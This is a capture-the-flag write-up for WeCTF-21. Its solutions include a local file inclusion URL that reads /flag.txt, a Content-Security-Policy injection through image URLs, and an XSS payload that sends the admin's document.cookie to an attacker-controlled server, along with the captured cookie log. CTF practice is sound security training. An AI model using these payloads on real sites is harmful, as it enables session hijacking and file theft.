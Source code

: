 # WeCTF-21
Sloppy walk through of https://21.wectf.io/ CTF

6/19 @ 11am - 6/20 @ 11am
https://21.wectf.io/
Team: SaetheR
https://ctftime.org/team/1049619
	
	
## Challenges ##

> #1 "Welcome" 
Flag is b64decode("d2UlN0I1ODRjNGNiMC1jYjU4LTQ1YWItOTNhNC0yOWY1YmRhYzlmMjJAaGVsbG9faGFja2VycyU3RSU3RA==")

SOLUTION: Pop over to cyberchef and add string with filter From Base64 and URL Decode 
**flag: we{584c4cb0-cb58-45ab-93a4-29f5bdac9f22@hello_hackers~}**

> #2 "SDN"
Find a server from a router forwarding config?

Log dump has hex strings peppered through it
0x0800 0x06 0x06 0x000000ff 0x000000e5 0x13 0x5e 0x22 0xff 0xff

Converting those to decimal
2048 6 6 255 229 19 94 34 255 255

Pluck out what looks like an IP address? 229.19.94.34

**skipping for now**

> #3 "Cache" 
Flask-ish Django: One recent web app he developed with this is to display flag to admins.
This challenge requires user interaction. Send your payload to uv.ctf.so

Host 1 (San Francisco): cache.sf.ctf.so
Host 2 (Los Angeles): cache.la.ctf.so
Host 3 (New York): cache.ny.ctf.so
Host 4 (Singapore): cache.sg.ctf.so

Source Code

*SOLUTION* 

Looking through source code
- urls.py shows there's a /index and /flag path
- /flag shows error "Only admin can view this!"
- due to no token or token not equal to ADMIN_TOKEN
- So how do we send token?
- token is set as a cookie called token
- ADMIN_TOKEN is 123 defined in Dockerfile.test

TASK: using uv.ctf.so to simulate getting an admin to visit a URL, we need to set the ADMIN_TOKEN in env vars
- Create a web script to capture cookies of visitors
- Has to initiate from the targetted website for XSS to capture cookie

**skipping for now**

> #4 "Include"
yet another buggy PHP website.
Flag is at /flag.txt on filesystem
Host 1 (San Francisco): include.sf.ctf.so
Host 2 (Los Angeles): include.la.ctf.so
Host 3 (New York): include.ny.ctf.so
Host 4 (Singapore): include.sg.ctf.so

*SOLUTION*

Page returns
`	<?php
	show_source(__FILE__);
	@include $_GET["🤯"];
	Fatal error: Uncaught ValueError: Path cannot be empty in /var/www/html/index.php:3 Stack trace: #0 {main} thrown in /var/www/html/index.php on line 3`
From <http://include.la.ctf.so/> 

Answer seems to be to pass the encoded version of the emoji with the path to the flag file?

Using web tool: https://onlineunicodetools.com/url-encode-unicode

🤯 = %f0%9f%a4%af

/flag.txt = %2fflag.txt

URL for flag is then: http://include.la.ctf.so/?%f0%9f%a4%af=%2fflag.txt

**FLAG: we{695ed01b-3d31-46d7-a4a3-06b744d20f4b@1nc1ud3_/etc/passwd_yyds!}**

> #5 "CSP 1"
Shame on Shou if his web app has XSS vulnerability. More shame on him if he does not know how to use CSP correctly. 

This challenge requires user interaction. Send your payload to uv.ctf.so Flag is in cookies of admin (Shou). 

Hint: Search Content-Security-Policy if you don't know what that is and check your browser console. 

-Host 1 (San Francisco): csp1.sf.ctf.so 
-Host 2 (Los Angeles): csp1.la.ctf.so 
-Host 3 (New York): csp1.ny.ctf.so 
-Host 4 (Singapore): csp1.sg.ctf.so
-Source Code
From <https://21.wectf.io/challenges/?solved=Include> 

*SOLUTION*

USING: https://github.com/lnxg33k/misc/blob/master/XSS-cookie-stealer.py

send him to my cookie stealer? http://*your webserver*:888/cookie.html
or direct to py script: 'http://*your webserver*:8888/?'+document.cookie

! CSP is locked down, but allows URL src pulled from Content submitted via form. So we need to XSS via IMG tag.

`resp.headers["Content-Security-Policy"] = "default-src 'none'; connect-src 'self'; img-src " \
                                              f"'self' {filter_url(img_urls)}; script-src 'none'; " \
                                              "style-src 'self'; base-uri 'self'; form-action 'self' "`

?? could I inject a policy change via filter_url(img_urls) ??

`<img src="http://;'unsafe-inline';/foo.png">` yes!! getting close
I does allow me to inject anything between the scheme (http) and the image path!
`<img src="http://;script-src 'unsafe-inline';/foo.png" />`
`<script>alert('hi');</script>`

1. So for the script to get called, I need to get it's TLD added to the acceptable list, so the first line should create an HTML IMG with the same host:port as my script

`<img src="http://*your webserver*:8888/foo.png" />`

2. Next add my injection via an HTML IMG tag with my CSP rules added

`<img src="http://;script-src * 'unsafe-inline';connect-src *;" />`

3. Now add my test and cookie stealer script call

`<script>
alert(document.cookie);
var i=new Image;
i.src='http://*your webserver*:8888/?'+document.cookie;
</script>`

4. Submit the query and you should get a JS pop and logs in your stealer script!
5. Take URL created by web app and submit via Url Viewer helper app (http://uv.ctf.so) for challenge
6. Flag should be in your cookie grabber script logs!!

`2021-06-19 03:18 PM - 143.110.233.16    Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:89.0) Gecko/20100101 Firefox/89.0
------------------------------------------------------------------------------------------------------------------
flag                    ['we{2bf90f00-f560-4aee-a402-d46490b53541@just_L1k3_<sq1_injEcti0n>}']`

**Flag is we{2bf90f00-f560-4aee-a402-d46490b53541@just_L1k3_<sq1_injEcti0n>}**

